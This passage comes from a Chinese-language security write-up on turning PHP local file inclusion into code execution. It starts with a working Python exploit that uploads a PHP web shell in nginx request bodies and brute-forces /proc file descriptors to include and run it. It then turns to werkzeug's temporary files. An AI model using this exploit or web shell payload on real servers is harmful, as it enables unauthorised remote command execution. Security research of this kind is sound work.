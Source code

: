 ```python
done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

## Flask - werkzeug

werkzeug 在存在这样的代码 | [code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/formparser.py#L56)

![image-20230313104035742](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313104035742.png)

`SpooledTemporaryFile` 和 `TemporaryFile` 都是带有自动清理功能的接口，文档中这样描述

![image-20230313105243489](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313105243489.png)

![image-20230313105415243](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313105415243.png)

我们有了在服务器上写入任意文件的能力
